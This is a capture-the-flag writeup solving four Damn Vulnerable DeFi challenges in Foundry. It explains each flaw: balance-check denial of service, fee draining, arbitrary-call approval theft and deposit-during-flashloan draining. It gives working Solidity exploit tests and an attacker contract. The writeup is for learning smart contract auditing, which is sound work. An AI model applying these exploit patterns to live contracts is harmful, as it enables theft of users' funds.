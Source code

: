 # Damn Vulnerable Defi Foundry Writeup #

Hi, my name is Juan,  i wrote this writeup to help anybody interested in develop Smart contract auditing skills. I previously resolved other challenges as Ethernaut and CaptureTheEther so i recommend try them before get into this more advanced Defi challenges so i will asume you have a previous basic knowledge. Thanks to [nicolasgarcia214](https://github.com/nicolasgarcia214/damn-vulnerable-defi-foundry) for his Damn Vulnerable Defi Foundry version.

Any comments/corrections please reach me at my twitter account: **@devnet0x**

## Challenge 1: Unstoppable ##
The vulnerability in this challenge is in the flashloan, previous to transfer tokens we have this condition:

        if (poolBalance != balanceBefore) revert AssertionViolated();

So, we as attacker's must transfer 1 token to lender pool to create a difference between poolBalance and balanceBefore. Then, nobody else will be able to borrow a flashloan:

```
   function testExploit() public {
        /** EXPLOIT START **/
        vm.startPrank(attacker);
        dvt.transfer(address(unstoppableLender), 1 ether);
        vm.stopPrank();
        /** EXPLOIT END **/
        vm.expectRevert(UnstoppableLender.AssertionViolated.selector);
        validation();
    }
```

Source Code:
https://github.com/devnet0x/Blockchain/tree/master/ChallengesCTF/DVDF_Foundry/01_Unstoppable

## Challenge 2: NaiveReceiver ##

This time, you got to watch how is succesful challenge validated.

```
    function validation() internal {
        // All ETH has been drained from the receiver
        assertEq(address(flashLoanReceiver).balance, 0);
        assertEq(
            address(naiveReceiverLenderPool).balance,
            ETHER_IN_POOL + ETHER_IN_RECEIVER
        );
    }
```

So you can see that you need to transfer eth from receiver to lender. To do this, just call flashLoan function 10 times to transfer (consume)
all receiver ethers as fees. (Flashloan amount doesn't matter because fee is always 1 ETH)

```
    function testExploit() public {
        /** EXPLOIT START **/
        vm.startPrank(attacker);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), 1);
        vm.stopPrank();
        /** EXPLOIT END **/
        validation();
    }
```

Source Code:
https://github.com/devnet0x/Blockchain/tree/master/ChallengesCTF/DVDF_Foundry/02_NaiveReceiver

## Challenge 3: Truster ##
The vulnerability in this challenge is that the flashloan let us execute any function in his own contract so we can approve tokens to our own attacker's addredd. The steps to drain all tokens are: Call the flashLoan function asking to borrow 0 token, so we will not need to pay back anything. This is important because the attacker does not own any DVT token.

```
        vm.startPrank(attacker);
        uint256 borrowAmt = 0;
```
Call the flashLoan with target as the DVT token address to execute the call method on the Token contract itself
```
        address targetContract = address(dvt);
```
Construct the data payload to make the TrusterLenderPool to call the DVT approve method
```
        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)",
            attacker,
            1000000 ether
        );
```
Call flashloan
```
        trusterLenderPool.flashLoan(borrowAmt, attacker, targetContract, data);
```
Transfer all tokens to attacker
```
        dvt.transferFrom(address(trusterLenderPool), attacker, 1000000 ether);
        vm.stopPrank();
```
Source Code:
https://github.com/devnet0x/Blockchain/tree/master/ChallengesCTF/DVDF_Foundry/03_Truster

## Challenge 4: SideEntrance ##

The contract vulnerability is that you can cheat lender balance, depositing his own lender balance but under your account balance. To do that, you must build a contract that borrow ETH from the lender:

```
    function exploit(address _to) external {
        lenderContract.flashLoan(1000 ether);
        lenderContract.withdraw();
        payable(_to).transfer(1000 ether);
    }
```
Then, flashLoan function will call execute () function in our attacker's contract which will let us deposit borrowed ETH to the lender (so now ETH is in yor balance and contract balance is still 1000ETH). 
   
```
    function execute() external payable {
        lenderContract.deposit{value: 1000 ether}();
    }
``` 

This way you can pass and pay the flashloan:
        
        if (address(this).balance < balanceBefore)
        
Finally, in Foundry we just deploy our attacker contract:

``` 
    function testExploit() public {
        /** EXPLOIT START **/
        vm.startPrank(attacker);
        AttackerContract attackerContract = new AttackerContract(
            address(sideEntranceLenderPool)
        ); //deploy our attacker contract
        attackerContract.exploit(address(attacker));
        /** EXPLOIT END **/
        vm.stopPrank();
        validation();
    }
``` 

Source Code:
https://github.com/devnet0x/Blockchain/tree/master/ChallengesCTF/DVDF_Foundry/04_SideEntrance
